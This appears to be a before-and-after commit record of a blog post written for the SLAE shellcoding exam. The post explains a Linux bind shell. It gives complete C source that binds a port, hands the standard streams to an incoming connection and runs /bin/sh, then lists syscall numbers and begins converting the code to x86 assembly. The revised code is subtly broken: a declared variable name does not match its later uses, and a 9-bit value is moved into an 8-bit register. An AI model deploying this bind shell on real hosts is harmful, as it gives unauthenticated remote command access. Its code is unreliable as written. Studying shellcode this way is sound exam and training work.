

Before and after one commit to smarinovic/smarinovic.github.io, a Jekyll site: the page built from _posts/2020-05-17-SLAE-exam-assessment-01.md, in a window 1280 px wide and 1400 px high, scrolled down 2309 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Added socket syscall

````diff
--- a/_posts/2020-05-17-SLAE-exam-assessment-01.md
+++ b/_posts/2020-05-17-SLAE-exam-assessment-01.md
@@ -21,21 +21,24 @@ toc: true
 
 To get idea how bind shell works and which syscalls are used, we can create bind shell code in C. After a bit of research, the simplest bind shell is following:
 ```
+#define _GNU_SOURCE # added to avoid gcc's implicit declaration of function warning
+#include <unistd.h>
 #include <stdio.h>
 #include <sys/types.h>
 #include <sys/socket.h>
 #include <netinet/in.h>
-
-int socketfd;
-int socketid;
 
 int main() {
 
   // Define struct containing bind() arguments
   struct sockaddr_in server;
 
+  // Define socket file descriptor
+  int socketfd;
+  int socketid;
+
   // Create socket
-  socketfd = socket(PF_INET, SOCK_STREAM, 0);
+  socketd = socket(AF_INET, SOCK_STREAM, 6);
 
   // Setup struct "server" containing following information: address, port and address family
   server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
@@ -43,20 +46,115 @@ int main() {
   server.sin_family = AF_INET;                // address family (ip v4)
 
   // Bind socket to ip 0.0.0.0, port 4000
-  bind(socketfd, (struct sockaddr*) &server, sizeof(server));
+  bind(socketd, (struct sockaddr*) &server, sizeof(server));
 
   // Listen for incoming connections
-  listen(socketfd, 2);
+  listen(socketd, 2);
 
   // Accept incoming connection
-  socketid = accept(socketfd, NULL, NULL);
+  socketid = accept(socketd, NULL, NULL);
 
   // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection
   dup2(socketid, 0);
   dup2(socketid, 1);
   dup2(socketid, 2);
 
-  // Run /bin/bash shell
-  execve("/bin/bash", NULL, NULL);
+  // Run /bin/sh shell
+  execve("/bin/sh", NULL, NULL);
 }
 ```
+
+Compiled and run, we can confirm that bind shell is working.
+!(bind shell)[../assets/img/slae_00001.png]
+
+Based on prototype code above, we can conclude that following syscalls needs to be done in order to create bind shell:
+
+* socket
+* bind
+* listen
+* accept
+* dup2
+* execve
+
+List of all syscalls and descriptions can be found in: unistd_32.h on following location: ```/usr/include/x86_64-linux-gnu/asm/unistd_32.h```
+
+```
+#define __NR_socket 359
+#define __NR_socketcall 102
+#define __NR_bind 361
+#define __NR_listen 363
+#define __NR_accept4 364
+#define __NR_dup2 63
+#define __NR_execve 11
+```
+
+# Converting C to Assembley #
+
+First we need to figure out which arguments are needed for each syscall.
+Let's start with socket call. Based on man 2 pages (```man 2 socket```) we can see the descripton of function and arguments it takes.
+
+```
+int socket(int domain, int type, int protocol);
+// socket()  creates an endpoint for communication and returns a file descriptor that refers to that endpoint.
+// The file descriptor returned by a successful call will be the lowest-numbered file descriptor not currently open for the process.
+```
+
+Arguments are passed via EAX, EBX, ECX, EDX, ESI, EDI registers.
+To have a clean start, registers need to be zero-out. Easiest way to do it (and avoid having null bytes in code) is by XOR register with itself.
+
+```
+xor eax, eax    ; Clear EAX
+xor ebx, ebx    ; Clear EBX
+xor ecx, ecx    ; Clear ECX
+xor edx, edx    ; Clear EDX
+```
+
+After that we need to pass syscall for socket in EAX register.
+
+```mov al, 0x167 ; 359 (0x167) is the syscall for socket ```
+
+Next, we need to pass arguments to ```socket(AF_INET, SOCK_STREAM, 6);``` function by placing arguments in registers:
+
+```
+mov bl, 2  ; domain = 2 (AF_INET/IPv4)
+mov cl, 1  ; type = 1 (SOCK_STREAM/TCP)
+mov dl, 6  ; protocol = 6 (IPPROTO_TCP)
+int 0x80   ; syscall
+```
+
+.... to be continued ...
+
+
+```
+int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
+// When a socket is created with socket(2), it exists in a name space (address family) but has no address assigned to it.
+// bind() assigns the address specified by addr to the socket referred to by the file descriptor sockfd.
+// addrlen specifies the size, in bytes, of the address structure pointed to by addr.
+```
+
+```
+int listen(int sockfd, int backlog);
+// listen() marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection requests using accept(2).
+// The sockfd argument is a file descriptor that refers to a socket of type SOCK_STREAM or SOCK_SEQPACKET.
+//  The backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.
+```
+
+```
+int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
+// The accept() system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET).
+// It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.
+// The newly created socket is not in the listening state.
+```
+
+```
+int dup2(int oldfd, int newfd);
+// The dup2() system call performs the same task as dup(), but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in newfd.  If the file descriptor newfd was previously open, it is silently closed before being reused.
+```
+
+```
+int execve(const char *pathname, char *const argv[], char *const envp[]);
+// execve()  executes the program referred to by pathname.
+// This causes the program that is currently being run by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initialized and uninitialized) data segments.
+// pathname must be either a binary executable, or a script starting with a line of the form:
+// #!interpreter [optional-arg]
+```
````
Also changed, not shown: 2 other files.
